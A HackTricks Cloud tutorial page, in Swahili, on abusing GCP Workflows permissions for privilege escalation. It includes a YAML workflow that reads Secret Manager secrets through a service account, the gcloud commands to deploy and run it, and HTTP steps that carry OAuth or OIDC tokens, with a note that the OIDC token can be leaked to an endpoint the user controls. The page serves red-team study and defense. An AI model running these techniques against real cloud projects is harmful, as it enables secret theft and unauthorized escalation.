 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Basic Information:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Kama ninavyojua si rahisi kupata shell yenye ufikiaji wa metadata endpoint inayoshikilia akreditif za SA za SA iliyoshambuliwa kwenye Workflow. Hata hivyo, inawezekana kutumia vibaya ruhusa za SA kwa kuongeza vitendo vya kutekeleza ndani ya Workflow.

Inawezekana kupata nyaraka za viunganishi. Kwa mfano, hii ni [**ukurasa wa kiunganishi cha Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** Katika upande wa sidebar inawezekana kupata viunganishi vingine vingi.

Na hapa unaweza kupata mfano wa kiunganishi ambacho kinachapisha siri:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Sasisha kutoka CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Ikiwa unapata kosa kama `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist`, **ngoja dakika moja na ujaribu tena**.

Ikiwa huna ufikiaji wa wavuti, inawezekana kuanzisha na kuona utekelezaji wa Workflow kwa: 

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Unaweza pia kuangalia matokeo ya utekelezaji wa awali kutafuta taarifa nyeti
{% endhint %}

Kumbuka kwamba hata kama unapata kosa kama `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` kwa sababu huna ruhusa hiyo, workflow imeundwa.

### Kuacha OIDC token (na OAuth?)

Kulingana na [**nyaraka**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) inawezekana kutumia hatua za workflow ambazo zitatumia ombi la HTTP na token ya OAuth au OIDC. Hata hivyo, kama ilivyo katika kesi ya [Cloud Scheduler](gcp-cloudscheduler-privesc.md), ombi la HTTP lenye token ya Oauth lazima liwe kwa mwenyeji `.googleapis.com`.

{% hint style="danger" %}
Kwa hivyo, ni **uwezekano kuacha token ya OIDC kwa kuashiria mwisho wa HTTP** unaodhibitiwa na mtumiaji lakini kuacha **token ya OAuth** unahitaji **kupita** kwa ulinzi huo. Hata hivyo, bado unaweza **kuwasiliana na api yoyote ya GCP ili kutekeleza vitendo kwa niaba ya SA** ukitumia ama viunganishi au maombi ya HTTP yenye token ya OAuth.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Kwa ruhusa hii badala ya `workflows.workflows.create` inawezekana kuboresha workflow iliyopo tayari na kufanya mashambulizi sawa.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
